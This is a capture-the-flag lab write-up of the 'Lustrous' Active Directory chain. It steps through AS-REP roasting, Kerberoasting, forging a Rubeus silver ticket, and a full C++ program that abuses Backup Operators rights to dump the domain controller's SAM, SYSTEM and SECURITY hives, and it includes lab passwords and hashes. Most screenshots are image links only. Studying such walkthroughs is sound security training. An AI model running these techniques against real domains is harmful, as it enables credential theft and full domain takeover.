# Lustrous (chain) (medium)

## port scan





## service enumeration

ftp allow anonymous login



some user directory



have a users.csv







## ASREPRoast

ben.cox user lack of Kerberos pre-authentication





we can winrm into LUSMS



## privilege escalation on lusms

there have admin.xml (PSCred)



we can use those powershell command get plain password

```powershell
$AdminCred = Import-Clixml -Path C:\users\ben.cox\desktop\admin.xml
$Password = $AdminCred.GetNetworkCredential().Password
```




## spn user

there are some service account



hashcat



now we have svc_web password

convert to hash

```bash
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "iydgTvmujl6f".encode("utf-16le")).digest()))'
```



## silver ticket


the tony.ward is backup

we can use rubeus to make a silver ticket login web page as `tony.ward` user. (those sid/id get from bloodhound)

```
dotnet inline-execute /opt/Rubeus.exe silver /service:http/lusdc.lustrous.vl /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /id:1114 /nowrap /ptt
```



```powershell
powershell Invoke-WebRequest -Uri http://lusdc.lustrous.vl/Internal -UseDefaultCredentials -UseBasicParsing | Select-Object -Expand Content
```



## abuse backup admin

there have a code can remote dump sam with backup user

https://github.com/Wh04m1001/Random/blob/main/BackupOperators.cpp

```cpp
#include <stdio.h>
#include <windows.h>

void MakeToken() {
    HANDLE token;
    const char username[] = "tony.ward";
    const char password[] = "U_cPVQqEI50i1X";
    const char domain[] = "lustrous.vl";

    if (LogonUserA(username, domain, password, LOGON32_LOGON_NEW_CREDENTIALS, LOGON32_PROVIDER_DEFAULT, &token) == 0) {
        printf("LogonUserA: %d\n", GetLastError());
        exit(0);
    }
    if (ImpersonateLoggedOnUser(token) == 0) {
        printf("ImpersonateLoggedOnUser: %d\n", GetLastError());
        exit(0);
    }
}

int main()
{
    HKEY hklm;
    HKEY hkey;
    DWORD result;
    const char* hives[] = { "SAM","SYSTEM","SECURITY" };
    const char* files[] = { "C:\\windows\\temp\\sam.hive","C:\\windows\\temp\\system.hive","C:\\windows\\temp\\security.hive" };

    //Uncomment if using alternate credentials.
    MakeToken();

    result = RegConnectRegistryA("\\\\lusdc.lustrous.vl", HKEY_LOCAL_MACHINE,&hklm);
    if (result != 0) {
        printf("RegConnectRegistryW: %d\n", result);
        exit(0);
    }
    for (int i = 0; i < 3; i++) {

        printf("Dumping %s hive to %s\n", hives[i], files[i]);
        result = RegOpenKeyExA(hklm, hives[i], REG_OPTION_BACKUP_RESTORE | REG_OPTION_OPEN_LINK, KEY_READ, &hkey);
        if (result != 0) {
            printf("RegOpenKeyExA: %d\n", result);
            exit(0);
        }
        result = RegSaveKeyA(hkey, files[i], NULL);
        if (result != 0) {
            printf("RegSaveKeyA: %d\n", result);
            exit(0);
        }
    }
}

```

compile code

```bash
x86_64-w64-mingw32-g++ ./dump.cpp -o dump
```

those file will save at dc machine



we can use smbclient download those file



use pypykatz to get dc machine hash



dump all!




